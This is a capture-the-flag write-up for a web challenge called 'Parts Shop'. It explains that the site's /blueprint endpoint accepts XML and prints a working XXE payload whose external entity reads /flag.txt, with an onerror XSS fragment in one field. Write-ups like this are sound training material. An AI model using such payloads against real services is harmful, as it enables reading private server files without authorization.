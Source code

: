 # Introduction
This challange is a simple page that shows data gathers by one javascript call.
We can add new sections and our data is sent via XML ( XXE )

## Challange Discription

We've found an online shop for robot parts. We suspect ARIA is trying to embody itself to take control of the physical world. You need to stop it ASAP! (Note: The flag is located in /flag.txt)
https://uscybercombine-s4-parts-shop.chals.io/


## Webpage 

There is one main URL (/) and we have option to add new sections via (/blueprint)
- main page is (/)
- javascript calls (/parts) to load different sections
- we can add new sections via (/blueprint)

![](../assets/Parts_Shops_1.png)


## Step 1 

When we analyze addning sections (**/blueprint**) we see that our data is POST via **XML**

![](../assets/Parts_Shops_2.png)



## Step 2 

Next step we test for **XXE** because our data is sent via XML
- flag is located at /flag.tx
- adding XML code to read /flag.txt

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE part [
  <!ELEMENT part ANY>
  <!ENTITY bar SYSTEM "/flag.txt">
]>
<part>
  <name>new</name>
  <author>nn</author>
  <image>" onerror=alert(1)</image>
  <description>&bar;</description>
</part>
```

After sending this data we see that description is fulled with flag !!

![](../assets/Parts_Shops_3.png)